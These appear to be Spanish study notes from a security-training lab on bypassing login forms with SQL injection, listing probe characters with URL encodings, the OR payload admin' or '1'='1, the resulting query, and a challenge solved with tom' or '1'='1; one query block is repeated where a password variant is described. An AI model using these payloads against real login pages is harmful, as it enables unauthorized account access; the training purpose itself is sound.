







# Subverting Query Logic

## Omisión de autenticación

Considere la siguietne página de inicio de sesión de administrador 



Podemos iniciar sesión con las credenciales de administrador admin / p@ssw0rd.



## Descubrimiento de SQLi

Antes de comenzar a subvertir la lógica web e intentar eludir al autenticación, primero se debe probar si el formulario de inicio de sesión es vulnerable a inyecciones SQL. Para hacer eso, intentemos agregar una de las siguientes cargas útiles después de nuestro nombre de usuario y veremos si causa algún error o cambia el comportamiento de la página:

| Carga útil | URL codificada |
|------------|----------------|
| **'**      | **%27** |
| **"**      | **%22** |
| **#**      | **%23** |
| **;**      | **%3B** |
| **)**      | **%29** |



## OR injection

Necesitaremos que la consulta regrese true, independientemente del nombre de usuario y contraseña ingresados, para omitir la autenticacion abudaremos de **OR**

```
admin' or '1'='1
```

Si inyectamos esta consulta deberia verse de la siguiente manera:

```
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```



Pudimos iniciar sesion como administrador, pero que pasaria si no supieramos un nombre de usuario valido.



Para iniciar sesion correctamente, se necesita que la consulta de resultado TRUE, para esto podemos agregar something' or '1'='1 como contraseña.

```
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```



## Reto

 Intente iniciar sesión como el usuario 'tom'. ¿Cuál es el valor de la bandera que se muestra después de iniciar sesión correctamente? 

 

 ```
 tom' or '1'='1
 ```

 